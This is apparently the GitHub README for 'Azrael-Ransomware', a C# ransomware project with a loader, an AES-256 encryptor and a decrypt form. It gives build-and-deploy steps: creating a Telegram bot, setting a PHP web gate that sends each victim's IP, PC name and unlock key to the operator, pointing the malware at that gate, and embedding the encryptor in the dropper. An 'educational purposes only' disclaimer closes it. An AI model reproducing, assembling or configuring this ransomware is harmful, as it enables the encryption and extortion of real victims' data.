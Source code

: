 # Azrael-Ransomware
![CSHARP](https://img.shields.io/badge/Language-CSHARP-aqua?style=for-the-badge&logo=CS)
![](banner.png)

## 📑 About
```
This is a simple ransomware-example writed in C#.
Yes, many functions and its implementation is weak, but I think this example is worth being.
```
### 💾 Features:
 * Size: 800kb
 * Using Algorithm for Encryption: AES-256
 * Uses a gateway to redirect encrypted information and the unlock key, sending it directly to the telegram bot.
 * Divided into modules: Loader, Encryptor, Form(include decrypt-function) 

## 🏴‍☠️ Video-Fragment


## 💻 Working Graph
<p float="left">
  <img alt="screen" width="500" src="working_graph.png">
</p> 

## How to use?
 * Create bot in telegram: @BotFather and get your chatid with bot @getmyid_bot
 * Put this data in web-gate(src/WebResender/gate.php)
 ```php
$botToken = 'YOUR-TELEGRAM-BOT-TOKEN';
$chatId = 'YOUR-TELEGRAM-CHAT-ID';
$message = "[🏴‍☠️] New-Victim Computer!\nIP: $API_IP\nPC: $PC\nKey: $key";
 ```
 * And change url to your web-gate:
 ```csharp
public static readonly string UrlServer = "http://127.0.0.1/resender.php"; // Your web-gate
 ```
 * Then compile the FORM(FORM.EXE) and encryptor(ENC.EXE) and then add these two resources to the loader, the main thing is that they are compatible with the names
 (src/Azrael_Loader/Modules/Dropper.cs):
```csharp
16 File.WriteAllBytes(encPath, Properties.Resources.enc);
26 File.WriteAllBytes(formPath, Properties.Resources.Form);
```
 * After this, compile the loader and the project compilation is complete!.
 * Note: (If you want, you can change the keys to whatever you want).


 ### 🕸️ Notation (if ):
 > If you decide to rewrite this project, you will need .net framework 4.

## ⚠️ Disclaimer - this project for education and purposes only!
```
This open-source example ransomware is provided for educational purposes only. 
The author assumes no responsibility for any misuse or illegal activities performed with this software.
Users are solely responsible for ensuring that their use of this tool complies with all applicable laws and regulations.
```